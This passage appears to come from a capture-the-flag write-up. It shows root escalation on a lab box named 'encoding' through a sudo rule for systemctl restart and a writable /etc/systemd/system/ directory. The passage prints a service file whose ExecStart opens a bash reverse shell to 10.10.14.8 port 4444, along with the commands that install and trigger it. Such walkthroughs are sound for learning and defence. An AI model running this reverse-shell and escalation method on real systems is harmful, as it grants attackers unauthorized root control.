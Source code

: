 ## Systemd Exploit

The svc user had a private ssh key in their home folder. I downloaded it to my machine and used it to reconnect. Then I looked for anything I could run with sudo.

```bash
svc@encoding:~$ sudo -l
Matching Defaults entries for svc on encoding:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on encoding:
    (root) NOPASSWD: /usr/bin/systemctl restart *
```

I could restart a service with `systemctl`. I found [a technique](https://chaudhary1337.github.io/p/how-to-systemctl-misconfiguration-exploit/) that created a new service by adding a file in '/etc/systemd/system/'. 

Just as with the git repository, the normal file permissions did not allow me to write to the folder. But the ACL did.

```bash
svc@encoding:/var/www/image$ ls -ld /etc/systemd/system/
drwxrwxr-x+ 22 root root 4096 Mar 10 00:36 /etc/systemd/system/

svc@encoding:/var/www/image$ getfacl /etc/systemd/system/
getfacl: Removing leading '/' from absolute path names
# file: etc/systemd/system/
# owner: root
# group: root
user::rwx
user:svc:-wx
group::rwx
mask::rwx
other::r-x
```

I created a new service to open a reverse shell to my machine.

```bash
svc@encoding:~$ cat root.service
[Unit]
Description=pwn

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1'

svc@encoding:~$ cp root.service /etc/systemd/system/

sudo systemctl restart root.service
```
